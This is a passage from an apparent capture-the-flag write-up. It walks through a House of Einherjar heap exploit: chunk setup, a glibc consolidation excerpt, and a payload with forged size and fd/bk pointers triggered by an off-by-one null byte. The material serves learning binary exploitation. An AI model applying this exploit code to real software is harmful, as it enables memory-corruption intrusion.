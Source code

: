 Now, we can setup our target chunks and free the previous tcache chunks. Chunk 7 is just any big chunk so we can play
more with target size later. Chunk 8 is the second chunk to overwrite, and chunk 9 prevents consolidation with the
forest so our chunk is placed in unsorted bin instead of becoming new forest (forward consolidation is ok).

```py
purchase(p, b"a"*0x1f8) # 7 - our controlled chunk
purchase(p, b"a"*0xf0) # 8 - consolidated chunk
purchase(p, b"a"*0x20) # 9 - separate from wilderness
for i in range(7):
    use(p, i)
```

```c
if (nextchunk != av->top) {
  /* get and clear inuse bit */
  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

  /* consolidate forward */
  if (!nextinuse) {
    unlink_chunk (av, nextchunk);
    size += nextsize;
  } else clear_inuse_bit_at_offset(nextchunk, 0);
  // place chunk in unsorted
  ...
} else {
  size += nextsize;
  set_head(p, size | PREV_INUSE);
  av->top = p;
  check_chunk(av, p);
}
```

Now, we perform House of Einherjar.

```py
# the off-by-one will change chunk_8 PREV_INUSE bit to 0 cos of the appended null byte
payload = flat(
    0x0, 0x1f0, # 0x1f0 must match the size to pass corrupted size vs. prev_size
    heap_base + 0x9c0, heap_base + 0x9c0, # p = heap_base + 0x9c0, fd->bk == p, bk->fd == p to pass corrupted double-linked list
    b"a"*0x1d0,
    0x1f0, # this size (prev_size) must be such that chunk_8 - 0x1f0 points to the fd and bk ptrs
)
edit(p, 7, payload)

# trigger consolidate
use(p, 8)
```

Here we want to use wishing well to leak libc. We need to do it twice, because the very first chunk for heap leak was
also size 0x21 (we could have avoided this if we made the first chunk part of the tcache setup step)
